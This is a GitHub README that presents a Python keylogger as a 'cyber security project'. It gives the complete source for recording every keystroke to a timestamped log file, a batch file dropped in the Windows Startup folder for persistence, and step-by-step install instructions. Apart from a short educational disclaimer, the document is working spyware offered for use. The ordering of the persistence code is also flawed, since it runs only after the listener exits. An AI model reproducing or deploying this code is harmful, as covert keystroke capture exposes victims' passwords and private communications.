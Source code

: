 # Keylogger - Cyber Security Project

## Overview
This project is a simple Python-based keylogger that logs keystrokes and saves them to a file. Additionally, it includes an auto-start mechanism to execute the script on system startup. This tool is intended strictly for educational and ethical cybersecurity research purposes.

## Features
- Captures and logs keystrokes.
- Runs in the background.
- Saves keystrokes to a log file.
- Automatically executes on system startup (Windows).

## Prerequisites
- Python 3.x installed.
- Required library:
  ```bash
  pip install pynput
  ```

## Installation & Usage
1. Save the following script as `keylogger.py`:

```python
import pynput
from pynput.keyboard import Key, Listener
import logging
import os
import sys

# Log file directory
log_dir = r"D:/cyber security/cyber security projects/keylogger"
logging.basicConfig(filename=(log_dir + r"/keylog.txt"), level=logging.DEBUG, format='%(asctime)s: %(message)s')

def on_press(key):
    try:
        logging.info(str(key))
    except Exception as e:
        logging.error(f"Error: {e}")

with Listener(on_press=on_press) as listener:
    listener.join()

# Auto-start mechanism (Windows)
script_path = os.path.abspath(sys.argv[0])
autostart_path = os.path.join(os.getenv('APPDATA'), 'Microsoft\Windows\Start Menu\Programs\Startup', 'keylogger.bat')

with open(autostart_path, 'w') as bat_file:
    bat_file.write(f'@echo off\npython "{script_path}"\nexit')
```

2. Run the script once to create the necessary startup batch file.
3. Restart your system to ensure it runs automatically.

## How It Works
- The script listens for keyboard events.
- Captured keystrokes are logged in `keylog.txt`.
- The script creates a batch file in the Windows Startup folder to ensure auto-execution.

## Important Notice
This project is strictly for educational purposes. Unauthorized use of keyloggers is illegal and unethical. Ensure you have explicit permission before using this tool in any environment.

